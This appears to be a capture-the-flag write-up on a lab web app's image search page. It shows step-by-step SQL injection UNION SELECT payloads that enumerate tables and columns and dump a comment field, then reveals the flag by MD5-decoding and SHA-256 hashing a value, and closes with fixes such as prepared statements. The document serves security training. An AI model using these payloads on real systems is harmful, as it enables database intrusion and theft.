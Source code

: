 ```
http://{IP_ADDRESS}/?page=searchimg
```

Actually, everything proceeds the same as in the [SQL Injection Member](../SQL%20Injection%20Member/writeup.md) post.

```
1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()
```

We execute this query;

```
ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database () 
Title: list_images
Url : 
```

Then, since we know the table name;

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

```
[...]
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: id
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: url
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
[...]
```

You can query and check each one individually, but we will go straight to the result.

```
1 UNION SELECT id, comment FROM list_images
```

```
ID: -1 UNION SELECT id, comment FROM list_images 
Title: An image about the NSA !
Url : 1

ID: -1 UNION SELECT id, comment FROM list_images 
Title: There is a number..
Url : 2

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Google it !
Url : 3

ID: -1 UNION SELECT id, comment FROM list_images 
Title: Earth!
Url : 4

ID: -1 UNION SELECT id, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
```

We checked what this hash might be using the website we used in our previous project. You can use tools like `hashid` or any hash finder if you prefer.

```
https://www.dcode.fr/
```

We had it automatically analyzed and saw it was MD5, and when decrypted:

`albatroz`

```
 ~  echo -n "albatroz" | sha256sum

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

## How to fix

-   Use Prepared Statements. Data received from users is not directly included in SQL queries. Instead, data is bound to the query as parameters and processed securely by the database engine, which prevents SQL Injection attacks.

-   Restrict SQL account permissions to limit possible damage in case of an attack.

-   Hide error messages, even though this doesn't directly prevent SQL injection.

-   You can filter user inputs.

-   Use WAF (Web Application Firewall).